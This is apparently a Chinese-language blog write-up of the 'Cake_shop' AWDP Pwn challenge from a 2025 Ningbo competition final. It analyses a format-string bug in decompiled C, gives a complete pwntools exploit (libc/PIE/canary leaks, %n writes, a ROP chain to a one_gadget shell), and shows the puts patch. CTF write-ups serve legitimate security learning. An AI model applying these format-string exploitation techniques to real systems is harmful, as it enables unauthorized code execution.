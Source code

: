 ```yaml
---
title: "Write-ups: 2025 宁波市第八届网络安全大赛决赛"
published: 2025-09-17
updated: 2025-09-17
description: "2025 宁波市第八届网络安全大赛决赛 AWDP Pwn 方向单题。"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# Cake_shop

## Information

- Category: AWDP Pwn
- Points: Unknown

## Description

Unknown

## Write-up

Kong 师傅分享的题，本来只是抱着试一试的心态，看看能不能做出来的，结果没想到还真做出来了……决赛题，不过感觉挺简单，如果我在现场的话就拿分了哈哈哈，可惜了，国内赛事接触太少了。Anyway，还是值得记录一下的。

粗略分析一下，发现 `do_nothing` 里面存在格式化字符串漏洞。由于主菜单无限循环，所以我们可以无限触发格式化字符串漏洞，感觉这样一来题目难度瞬间就低了好几个档次。

```c del={10-11}
int do_nothing()
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mMaybe it should be thought about in your head\x1B[0m");
  puts("\x1B[33mWhat if it happens\x1B[0m");
  read(0, buf, 0x28u);
  return printf(buf);
}
```

`chat` 和 `earn_money` 功能没啥用，直接看 `buy`：

```c ins={36-37}
__int64 buy()
{
  int choice; // [rsp+8h] [rbp-38h] BYREF
  int money; // [rsp+Ch] [rbp-34h]
  _BYTE buf[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mWe have three kinds of cakes here\x1B[0m");
  puts("\x1B[33m1.Strawberry cake $10\x1B[0m");
  puts("\x1B[33m2.Orange cake $50\x1B[0m");
  puts("\x1B[33m3.Watermelon cake $100\x1B[0m");
  __isoc99_scanf("%d", &choice);
  if ( choice == 1 )
  {
    money -= 10;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice == 2 )
  {
    money -= 50;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice == 3 )
  {
    money -= 100;
    money = money;
    if ( money < 0 )
      puts("\x1B[33mYou don't have enough money\x1B[0m");
  }
  if ( choice != 666 || money != 99999999 )
    return 0;
  puts("\x1B[33mBuy the whole cake shop\x1B[0m");
  read(0, buf, (unsigned int)size);
  return 0;
}
```

标绿的部分正常情况下是执行不到的，注意到后面还有个 read 函数，感觉有猫腻。因为有格式化字符串漏洞，我们可以先把程序的几个关键基址算出来，然后再思考如何绕过检测，执行到最后那个 read 函数。

这里 `choice` 我们可以直接传入 666，所以问题就是 `money` 怎么赋值了。注意到 money 在 data 段，`rw-p` 权限，可篡改。

算了下，格式化字符串得写四字节，值是 `0x5f5e0ff`。由于只有几千万字节大小，写起来不会花多久，所以我一开始做的时候是选择一次性写完的，但听 Kong 师傅说他一次性写完有问题，于是我就改成一次写两字节了。

最后那个 read 将输入读到四十字节的 buffer 中，但是默认 size 只有 32 字节。不过由于 size 也保存在 data 段，所以我们同理可以利用 do_nothing 的格式化字符串改写 size，溢出返回地址。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./pwn_patched"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./libc.so.6")


def buy(choice):
    target.sendlineafter(b"Please make your choice>>", str(1).encode())
    target.sendlineafter(b"$100", str(choice).encode())


def do_nothing(msg):
    target.sendlineafter(b"Please make your choice>>", str(4).encode())
    target.sendlineafter(b"What if it happens", msg)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = b"%17$p %8$p"
    do_nothing(payload)
    target.recvline()
    response = target.recvline().strip().split()
    libc.address = int(response[0], 16) - 0x24083
    pie = int(response[1], 16) - 0x1570

    payload = b"%11$p"
    do_nothing(payload)
    target.recvline()
    canary = int(target.recvline().strip(), 16)
    money_p1 = pie + 0x4010
    money_p2 = money_p1 + 2
    money_value_p1 = 0x5F5E0FF & 0xFFFF
    money_value_p2 = (0x5F5E0FF >> 16) & 0xFFFF
    read_size = pie + 0x4014
    one_gadget = libc.address + 0xE3AFE

    target.success(f"libc: {hex(libc.address)}")
    target.success(f"pie: {hex(pie)}")
    target.success(f"canary: {hex(canary)}")
    target.success(f"money: {hex(money_p1)}")
    target.success(f"read_size: {hex(read_size)}")
    target.success(f"one_gadget: {hex(one_gadget)}")

    payload = flat(
        f"aaaa%{money_value_p1 - 0x4}c%8$hn".encode(),
        money_p1,
    )
    do_nothing(payload)

    payload = flat(
        f"aaaaa%{money_value_p2 - 0x5}c%8$hn".encode(),
        money_p2,
    )
    do_nothing(payload)

    payload = flat(
        b"aaaaaa%1337c%8$n",
        read_size,
    )
    do_nothing(payload)
    buy(666)

    # 0x00000000000015cc: pop r12; pop r13; pop r14; pop r15; ret;
    payload = flat(
        b"A" * 0x28,
        canary,
        b"A" * 0x8,
        pie + 0x00000000000015CC,
        0,
        0,
        0,
        0,
        one_gadget,
    )
    target.sendline(payload)

    target.interactive()


if __name__ == "__main__":
    main()
```

## Patch

直接把 `printf` patch 成 `puts` 就好了，ez

```c ins={11}
int do_nothing()
{
  char buf[40]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(s);
  puts("\x1B[33mMaybe it should be thought about in your head\x1B[0m");
  puts("\x1B[33mWhat if it happens\x1B[0m");
  read(0, buf, 0x28u);
  return puts(buf);
}
```

